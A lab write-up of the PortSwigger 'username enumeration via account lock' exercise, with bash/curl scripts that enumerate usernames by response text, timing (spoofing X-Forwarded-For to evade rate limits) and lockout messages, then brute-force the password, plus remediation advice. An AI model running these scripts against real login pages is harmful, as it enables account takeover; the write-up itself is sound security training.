

# Lab: Username Enumeration via Account Lock

> **Platform:** PortSwigger Web Security Academy  
> **Module:** Authentication Vulnerabilities  
> **Lab:** Username enumeration via account lock  
> **Link:** https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/password-based-vulnerabilities/authentication/password-based/lab-username-enumeration-via-account-lock#  
> **Goal:** Access the account of a valid user.

---

## 1. Lab Goal

The goal of this lab was to access the account of a valid user.

The lab steps were also mentioned clearly:

1. Enumerate a valid username.
2. Brute-force the password.
3. Access the account.

The important information given in the lab was that the account locking feature has a logic flaw. So before exploiting it, I first had to understand what that flaw actually was.

---

## 2. Vulnerability Summary

This lab is about username enumeration through account locking.

Normally, applications should not reveal whether a username exists or not. But in this case, the account lock feature creates a difference in behavior.

For most invalid login attempts, the application returns:

```text
Invalid username or password.
```

But when I tried multiple wrong passwords against a valid username, the application eventually returned:

```text
You have made too many incorrect login attempts. Please try again in 1 minute(s).
```

That means the lockout message itself can be used to identify a valid username.

So the logic was basically:

- Invalid username + wrong password = normal error message.
- Valid username + many wrong passwords = account lock message.

This difference was enough to enumerate the username.

---

## 3. Trial and Error

First I had to figure out the flaw. I did not know straight away how the account locking could be abused, so I tried a few different methods.

---

### Attempt 1: Username enumeration by different return string

First I tried the normal username enumeration method: send one invalid password with every username and check if the returned message changes.

For this, I used this script:

```bash
#!/usr/bin/env bash

HOST="0a5b00cd04ab05b381e20ce00046005a.web-security-academy.net"
INVALID_USER_MSG="Invalid username or password."

while IFS= read -r username; do
  msg=$(
    curl -s -X POST "https://$HOST/login" \
      --data-urlencode "username=$username" \
      --data-urlencode "password=test123" \
      | grep -oP '<p class=is-warning>\K.*(?=</p>)'
  )

  if [[ "$msg" != "$INVALID_USER_MSG" ]]; then
    echo "[+] Possible valid username found: $username"
    echo "[+] Response: '$msg'"
  fi
done < user_list.txt
```

But I did not get anything displayed on the screen.

That means every username was returning the same response:

```text
Invalid username or password.
```

So this method was not useful here.


---

### Attempt 2: Username enumeration by timing difference

Since the response message method did not work, I tried checking for timing differences.

The idea was simple: sometimes applications take longer when the username is valid because they do extra password checking. So I used a very long password and measured the response time for every username.

This was the script:

```bash
#!/usr/bin/env bash

i=1
HOST="0a5b00cd04ab05b381e20ce00046005a.web-security-academy.net"
PASS="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"

while IFS= read -r u; do
  time_taken=$(
    curl -s -o /dev/null -w "%{time_total}" \
      -H "X-Forwarded-For: 127.0.6.$i" \
      -X POST "https://$HOST/login" \
      -d "username=$u&password=$PASS"
  )

  time_int=${time_taken%%.*}

  echo "$time_taken | $u"

  i=$((i+1))
done < user_list.txt
```

I also used the `X-Forwarded-For` header here so every request looks like it is coming from a different IP. The idea was to avoid triggering the same rate limit while checking usernames.

But there was no useful result here as well.

The timing did not show any clear difference that I could rely on.

---

### Attempt 3: Username enumeration using account locking

Since this login form uses account locking, I changed the approach.

Instead of testing every username with only one password, I tested every username against multiple invalid passwords.

The idea was:

- If the username is invalid, the application will keep returning the normal invalid message.
- If the username is valid, after a few wrong password attempts, the application should lock the account.
- So the username that shows the account lock message is probably the valid username.

For this I used the script:

```bash
#!/usr/bin/env bash

HOST="0a53006804f4f6f0827b02320074005f.web-security-academy.net"
INVALID_USER_MSG="Invalid username or password."

PASS=("test0" "test1" "test2" "test3" "test4" "test5" "test6" "test7")

while IFS= read -r username; do
  for password in "${PASS[@]}"; do
    msg=$(
      curl -s -X POST "https://$HOST/login" \
        --data-urlencode "username=$username" \
        --data-urlencode "password=$password" \
        | grep -oP '<p class=is-warning>\K.*(?=</p>)'
    )

    if [[ "$msg" != "$INVALID_USER_MSG" ]]; then
      echo "[+] Possible valid username found: $username"
      echo "[+] Password tried: $password"
      echo "[+] Response: '$msg'"
    fi
  done
done < user_list.txt
```

This time I got a result:

```text
[+] Possible valid username found: archie
[+] Password tried: test3
[+] Response: 'You have made too many incorrect login attempts. Please try again in 1 minute(s).'
[+] Possible valid username found: archie
[+] Password tried: test4
[+] Response: 'You have made too many incorrect login attempts. Please try again in 1 minute(s).'
[+] Possible valid username found: archie
[+] Password tried: test5
[+] Response: 'You have made too many incorrect login attempts. Please try again in 1 minute(s).'
[+] Possible valid username found: archie
[+] Password tried: test6
[+] Response: 'You have made too many incorrect login attempts. Please try again in 1 minute(s).'
[+] Possible valid username found: archie
[+] Password tried: test7
[+] Response: 'You have made too many incorrect login attempts. Please try again in 1 minute(s).'
```

So `archie` was the possible valid username.

Also, from the output, I could see that the account lock limit was around 3 wrong guesses. After that, the application started showing the lockout message.

---

## 4. Brute-Forcing the Password

Now that I had the username, the next step was to brute-force the password.

At this point the target was:

```text
archie
```

But because of the account lock, I could not just brute-force normally without thinking about the lockout behavior.

---

### Attempt 4: Running the password test and watching for a different response

After that, I ran the test again, but this time I kept the logic simple.

I knew these two responses were not interesting:

```text
Invalid username or password.
```

```text
You have made too many incorrect login attempts. Please try again in 1 minute(s).
```

So the script ignored both of them and only printed something if the response was different.

This was the final script:

```bash
#!/usr/bin/env bash

HOST="0a53006804f4f6f0827b02320074005f.web-security-academy.net"
NORMAL="Invalid username or password."
VICTIM="archie"
LIMIT="You have made too many incorrect login attempts. Please try again in 1 minute(s)."

while IFS= read -r p; do
  msg=$(
    curl -s -X POST "https://$HOST/login" \
      --data-urlencode "username=$VICTIM" \
      --data-urlencode "password=$p" \
      | grep -oP '<p class=is-warning>\K.*(?=</p>)'
  )

  if [[ "$msg" == "$NORMAL" ]]; then
    # normal incorrect password, do nothing
    :
  elif [[ "$msg" == "$LIMIT" ]]; then
    :
  else
    echo "[+] Possible valid password: $p | $msg"
  fi

done < pass_list.txt
```

I got a result:

```text
[+] Possible valid password: yankees |
```

This was suspicious because even though the rate limit was there, the response for `yankees` was different. It returned nothing in the warning message area, which probably means the login did not fail in the same way.

So I tried this password manually.

```text
archie:yankees
```

And the lab was solved.



---

## 5. Evidence

### Invalid login message

```text
Invalid username or password.
```


### Account lock message

```text
You have made too many incorrect login attempts. Please try again in 1 minute(s).
```

### Username found

```text
[+] Possible valid username found: archie
[+] Password tried: test3
[+] Response: 'You have made too many incorrect login attempts. Please try again in 1 minute(s).'
```

### Password found

```text
[+] Possible valid password: yankees |
```

### Final credentials

```text
archie:yankees
```

### Lab solved


---

## 6. Remediation / Fix

The application should avoid revealing whether a username exists through the account lock behavior.

It should use the same generic message for all failed login attempts, for example:

```text
Invalid username or password.
```

The lockout behavior should also not clearly confirm that an account exists. If account locking is used, it should be handled carefully so attackers cannot use it for username enumeration.

A better fix would include:

- same error message for all login failures
- rate limiting that does not reveal account validity
- monitoring for repeated failed attempts
- protection against brute-force attempts
- avoiding lockout messages that expose valid users

---

## 7. Learnings

1. Sometimes we should be patient with the results of our scans and let them complete. It might reveal something unexpected.
2. Logic flaws are possible in apps because of human error, so we should keep an eye open for that too.
3. Account locking is difficult to bypass if we want to access a specific account and there are no logic flaws. In that case, we basically have to wait for the whole timeout period before trying again.
4. Different responses are not only about different text. Even an empty or missing warning message can be important.
5. Failed attempts are also useful in a writeup because they show how the final method was reached.

---

## 8. Final Summary

This lab was about username enumeration through account locking. At first, I tried normal username enumeration by checking for different response strings, but every username returned the same message. Then I tried timing differences with a long password, but that also did not give a useful result.

The working method was to test each username with multiple wrong passwords and watch for the account lock message. This revealed that `archie` was a valid username.

After that, I tried to brute-force the password. One idea was that logging in with another valid account might reset the limit, but that did not work. Finally, I used a script that ignored the normal invalid and rate-limit messages and only printed anything different. That revealed `yankees` as a suspicious password, and logging in with `archie:yankees` solved the lab.
